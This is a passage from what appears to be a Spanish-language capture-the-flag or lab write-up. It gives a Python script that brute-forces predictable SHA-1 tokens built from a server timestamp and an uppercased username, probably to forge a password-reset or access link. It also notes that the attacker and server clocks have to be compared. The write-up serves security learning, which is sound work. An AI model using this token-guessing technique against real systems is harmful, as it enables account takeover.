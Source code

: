 Tenemos la primera parte, ahora generaremos el script:
Este script toma un nombre de usuario, y luego genera hashes potenciales a partir de los últimos 10 segundos (de ahí el 10 en el primer bucle FOR), y también tiene en cuenta los milisegundos (de ahí el 1000 en el segundo bucle FOR). Hay que tener en cuenta el valor de `datetime.timedelta` ya que depende de nuestra hora y la del servidor tendremos que ajustarlo
```Python
import datetime  
import hashlib  
  
TIME_DIFFERENCE = datetime.timedelta(hours=1, minutes=45)  
  
def generate_possible_hashes(username, debug=False):  
    current_time = datetime.datetime.now() - TIME_DIFFERENCE  
    possible_hashes = []  
    for i in range(10):  
        for j in range(1000):  # Consider milliseconds  
            value = current_time - datetime.timedelta(seconds=i, milliseconds=j)  
            lnk = str(value)[:-4] + " . " + username.upper()  
            lnk_hash = hashlib.sha1(lnk.encode("utf-8")).hexdigest()  
            possible_hashes.append(lnk_hash)  
            if debug:  
                print(f"Debug: Generated hash for {lnk}")  
                print(f"Debug: Hash value: {lnk_hash}")  
    return possible_hashes  
  
def save_hashes_to_file(username, hashes):  
    file_name = username + ".out"  
    with open(file_name, "w") as file:  
        for hash_value in hashes:  
            file.write(hash_value.strip() + "\n")  
  
def main():  
    debug = input("Enable debugging? (y/n): ").lower() == 'y'  
    username = input("Enter the username: ")  
    if debug:  
        print(f"Debug: Debugging mode enabled.")  
    possible_hashes = generate_possible_hashes(username, debug)  
    print("Possible SHA-1 hashes generated in the last 10 seconds:")  
    for hash_value in possible_hashes:  
        print(hash_value)  
    save_hashes_to_file(username, possible_hashes)  
    print("Hashes saved to", username + ".out")  
  
if __name__ == "__main__":  
    main()
```

Para sacar la diferencia de hora tenemos que revisar nuestro reloj
![[Pasted image 20240805083621.png]]

Y el del servidor
![[Pasted image 20240805083637.png]]
